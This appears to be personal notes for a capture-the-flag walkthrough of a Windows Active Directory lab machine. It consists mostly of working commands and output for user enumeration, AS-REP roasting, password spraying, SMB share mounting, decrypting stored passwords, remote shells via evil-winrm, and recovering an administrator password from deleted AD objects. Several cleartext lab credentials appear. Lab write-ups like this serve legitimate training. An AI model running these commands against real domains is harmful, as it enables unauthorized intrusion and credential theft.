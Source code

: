 ### Making a Target User List (HTB Academy)
```bash
crackmapexec smb $IP --users # domain:cascade.local
❯ rpcclient -U "" -N $IP
rpcclient $> enumdomusers
```

##### Method 1 re-assembly rpcclient users list
```bash
cat rpc_users_raw.txt | cut -d"]" -f1 | tr "[" " " | cut -d " " -f2 > rpc_users.txt

# or 

cat rpc_users_raw.txt | awk -F\[ '{print $2}' | awk -F\] '{print $1}'
```

### ASREP Roasting
```bash
impacket-GetNPUsers cascade.local/ -dc-ip $IP -no-pass -usersfile rpc_users.txt
```

### ldapsearch
```bash
ldapsearch -x -H ldap://$IP -s base > ldapsearch_all.txt
ldapsearch -x -H ldap://$IP -s base -b "DC=cascade,DC=local" > ldapsearch_dc.txt
ldapsearch -x -H ldap://$IP -s base -b "DC=cascade,DC=local" '(objectClass=person)' > ldapsearch_person.txt

ldapsearch -H ldap://$IP -x -b "DC=cascade,DC=local" -s sub "(&(objectClass=user))"
ldapsearch -H ldap://$IP -x -b "DC=cascade,DC=local" -s sub "(&(objectClass=user))" | grep -i samaccountname: | cut -f2 -d" " > ldapsearch_user.txt
```
looks closely, there is one special user that other scans not poping it out.

CASC-DC1$

##### Enum others than user on ldapsearch
```bash
ldapsearch -H ldap://$IP -x -b "DC=cascade,DC=local" -s sub
ldapsearch -H ldap://$IP -x -b "DC=cascade,DC=local"
ldapsearch -H ldap://$IP -x -b "DC=cascade,DC=local" '(objectClass=person)'
```
cascadeLegacyPwd: clk0bjVldmE=

❯ echo clk0bjVldmE= | base64 -d
rY4n5eva

### ldapdomaindump
```bash
ldapdomaindump cascade.local
```

### windapsearch is way better !
```bash
/opt/windapsearch-linux-amd64 -d $IP -m users --full > windapsearch_go_user_full.txt

# a little trick
cat windapsearch_go_user_full.txt | awk '{print $1}' | sort | uniq -c | sort -nr
```

### ASREP Roasting Again
```bash
impacket-GetNPUsers cascade.local/ -dc-ip $IP -no-pass -usersfile rpc_users.txt
```

### Bash one-liner to try rpcclient and smb again
```bash
for u in $(cat rpc_users.txt); do smbmap -H $IP -u $u; done
for u in $(cat rpc_users.txt); do smbmap -H $IP -d cascade.local -u $u; done
```
```bash
for u in $(cat rpc_users.txt); do smbpasswd -r $IP -U $u; done
```

### Password sparying
```bash
crackmapexec smb $IP -u rpc_users.txt -p rY4n5eva | grep +

/opt/kerbrute_linux_amd64 passwordspray -d cascade.local --dc $IP rpc_users.txt rY4n5eva
```

SMB         10.129.114.189  445    CASC-DC1         [+] cascade.local\r.thompson:rY4n5eva

```bash
crackmapexec winrm $IP -u r.thompson -p rY4n5eva
```

### SMB Againt
```bash
❯ smbmap -H $IP -u r.thompson -p rY4n5eva
[+] IP: 10.129.114.189:445      Name: cascade.local                                     
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        Audit$                                                  NO ACCESS
        C$                                                      NO ACCESS       Default share
        Data                                                    READ ONLY
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        print$                                                  READ ONLY       Printer Drivers
        SYSVOL                                                  READ ONLY       Logon server share 
```

spider
```bash
crackmapexec smb $IP -u r.thompson -p rY4n5eva -M spider_plus
```

#### mount smb with creds
```bash
sudo mount -t cifs //$IP/Data /mnt -o username=r.thompson,password=rY4n5eva,domain=cascade.local
```

echo -n 6bcf2a4b6e5aca0f | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d -provider legacy -provider default | hexdump -Cv

s.smith:sT333ve2

### Bloodhound-python
```bash
bloodhound-python -c DcOnly -u s.smith -p 'sT333ve2' -d cascade.local -dc CASC-DC1.cascade.local -ns $IP
```

### Hint here
net user s.smith
net localgroup "Audit Share"
That's unusual

### Rush SMB, SMB RUSH
```bash
smbclient \\\\$IP\\Audit$ -U s.smith%sT333ve2
```

`sqlitebrowser Audit.db`

❯ echo -n BQO5l5Kj9MdErXx6Q6AGOw== | base64 -d
������D�|zC�;                                                                                                                                                                                            
The table `LDAP` contains a password for the user. But encrypted


### Privilege Escalation
❯ python3 /usr/share/doc/python3-impacket/examples/wmiexec.py cascade.local/arksvc:'w3lc0meFr31nd'@cascade.local
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] SMBv2.1 dialect used
[-] rpc_s_access_denied
```                                                   
❯ python3 /usr/share/doc/python3-impacket/examples/psexec.py cascade.local/arksvc:'w3lc0meFr31nd'@cascade.local
[-] share 'ADMIN$' is not writable.
[-] share 'Audit$' is not writable.
[-] share 'C$' is not writable.
[-] share 'Data' is not writable.
[-] share 'NETLOGON' is not writable.
[-] share 'print$' is not writable.
[-] share 'SYSVOL' is not writable.
```
# Root

```
evil-winrm -i cascade.local -u arksvc -p w3lc0meFr31nd  # <-- !!! Sometimes just can't use ip to get a shell
*Evil-WinRM* PS C:\Users\arksvc\Documents> whoami /all

USER INFORMATION
----------------

User Name      SID
============== ==============================================
cascade\arksvc S-1-5-21-3332504370-1206983947-1165150453-1106


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                            Attributes
=========================================== ================ ============================================== ===============================================================
Everyone                                    Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
CASCADE\Data Share                          Alias            S-1-5-21-3332504370-1206983947-1165150453-1138 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\IT                                  Alias            S-1-5-21-3332504370-1206983947-1165150453-1113 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\AD Recycle Bin                      Alias            S-1-5-21-3332504370-1206983947-1165150453-1119 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\Remote Management Users             Alias            S-1-5-21-3332504370-1206983947-1165150453-1126 Mandatory group, Enabled by default, Enabled group, Local Group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
*Evil-WinRM* PS C:\Users\arksvc\Documents> 
```

The user is identified to belong to the `AD Recycle Bin` group. AD Recycle Bin is used to recover deleted AD objects such as Users, Groups, OUs etc. The objects keep all their properties intact.

```ps
Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *
```

add a filter for user

Get-ADObject -filter { SAMAccountName -eq "TempAdmin"} -includeDeletedObjects -Properties *

YmFDVDNyMWFOMDBkbGVz

evil-winrm -i cascade.local -u administrator -p baCT3r1aN00dles
